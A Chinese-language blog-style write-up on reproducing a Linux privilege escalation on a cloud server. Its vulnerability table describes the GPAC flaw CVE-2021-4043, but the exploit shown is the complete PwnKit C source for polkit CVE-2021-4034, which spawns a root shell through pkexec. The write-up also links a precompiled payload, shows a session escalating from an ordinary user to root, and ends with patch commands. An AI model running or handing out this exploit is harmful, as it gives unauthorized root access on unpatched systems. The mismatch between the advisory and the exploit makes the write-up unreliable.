 
# 实验步骤

# CVE-2021-4043 Linux本地提权漏洞
 
|CNVD-ID	CNVD-2022-22323|
|-------|
|公开日期	2022-03-24|
|危害级别	中 (AV:N/AC:M/Au:N/C:N/I:N/A:P)|
|影响产品	GPAC GPAC <1.1.0
|CVE ID	CVE-2021-4043|
|漏洞描述	GPAC是一款开源的多媒体框架。
|GPAC 1.1.0之前版本存在代码问题漏洞，该漏洞源于软件中存在NULL指针解引用。目前没有详细漏洞细节提供|
|漏洞类型	通用型漏洞|
|参考链接	https://nvd.nist.gov/vuln/detail/CVE-2021-4043|
|漏洞解决方案	目前厂商已发布升级补丁以修复漏洞，补丁获取链接：
https://github.com/gpac/gpac/commit/64a2e1b799352ac7d7aad1989bc06e7b0f2b01db|
|厂商补丁	gpac代码问题漏洞（CNVD-2022-22323）的补丁
验证信息	(暂无验证信息)|
|报送时间 2022-02-10|
|收录时间 2022-03-24|
|更新时间 2022-03-24|

# 实验背景

> 今天登录阿里云服务器突然发现了一个提权漏洞，先利用一波玩玩。

![image.png](https://geekrabbit-1308222610.cos.ap-beijing.myqcloud.com/image_1649920710256.png)

# 实验环境

- **带有漏洞的centos7系统**

- **附带编译好的palyload下载链接[CVE-2021-4034](https://pan.jinke.icu:200/?explorer/share/file&hash=bfd49Lo430gaJX0xcZt5Q8jVCHIlcrLFyZJCh_Bu6qLG2oZemeMejOIwX4meVCH9SQk4)**

# 漏洞复现

###### 构造payload

**在GitHub找到了payload[https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
###### 用gcc编译后上传到阿里云

```bash
[root@local ~]# touch cve20124043.c
[root@local ~]# vim cve20124043.c
[root@local ~]# ls
cve20124043.c  
[root@local ~]# gcc cve20124043.c   -o cve20124043
[root@local ~]# ls
cve20124043  cve20124043.c  
```
![image.png](https://geekrabbit-1308222610.cos.ap-beijing.myqcloud.com/image_1649923281918.png)

###### 执行payload

```bash
[rabbit@iZj6c2ktpckmd5r3q2dfrhZ ~]$ ls
cve20124043                                                //上传编译好的paload  

[rabbit@iZj6c2ktpckmd5r3q2dfrhZ ~]$ id                     //查看用户为rabbit

uid=1004(rabbit) gid=1004(rabbit) groups=1004(rabbit)
[rabbit@iZj6c2ktpckmd5r3q2dfrhZ ~]$ ./cve20124043          //执行payload

sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),1004(rabbit)        //成功提权
```

![image.png](https://geekrabbit-1308222610.cos.ap-beijing.myqcloud.com/image_1649923029193.png)


# 漏洞修复

**CentOS 用户可采用如下命令升级到安全版本或更高版本：**
> 
>  `yum clean all && yum makecache yum update polkit -y`
> `
> 
> 
> 验证修复，通过以下命令可查看 Polkit 是否为安全版本：
> 
> `rpm -qa polkit` 

**Ubuntu 用户可采用如下命令升级至安全版本或更高版本：**
> 
> `sudo apt-get update sudo apt-get install policykit-1`
> 
> 
>验证修复，通过以下命令可查看 Polkit 是否为安全版本：
> 
> `dpkg -l policykit-1`


